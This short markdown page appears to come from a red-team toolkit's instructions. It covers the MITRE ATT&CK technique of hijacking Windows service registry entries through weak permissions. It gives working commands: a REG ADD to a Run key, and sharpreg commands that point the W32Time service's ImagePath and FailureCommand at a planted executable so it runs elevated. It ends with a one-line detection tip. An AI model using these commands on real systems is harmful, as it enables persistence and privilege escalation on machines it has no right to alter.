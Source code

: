 # [Services Registry Permissions Weakness](https://attack.mitre.org/techniques/T1574/011/)

## Exploit Description:
Hijack registry entries used by services by using flaws in permissions.  
HKLM\SYSTEM\CurrentControlSet\Services
REG ADD HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run /v “Canon Gear” /t REG_SZ /d C:\Users\Administrator.vcch\Appdata\Local\.exe
(Substitute registry path locations with what is needed) 


## Exploit syntax:
* Reference [Modify registry](/Poshc2/instructions/Modify_registry.md) for syntax. 

* Example of altering the "FailureCommand" key so that the service is executed in an elevated context anytime the service fails or is intentionally corrupted:

    ```powershell
    # First run this command to stage the service
    sharpreg create     "HKLM\SYSTEM\CurrentControlSet\Services\W32Time" "ImagePath"    "C:\tmp\RUNDLL.exe" REG_SZ

    sharpreg create     "HKLM\SYSTEM\CurrentControlSet\Services\W32Time"    "FailureCommand" "C:\tmp\RUNDLL.exe"  REG_SZ

    ```
    >**Note**: The original image path is " ImagePath	(ExpandString) -> 	C:\windows\system32\svchost.exe -k LocalService"
## Detection Technique:
* Investigating Run and Startup registry keys.


## Resources
* https://pentestlab.blog/tag/failurecommand/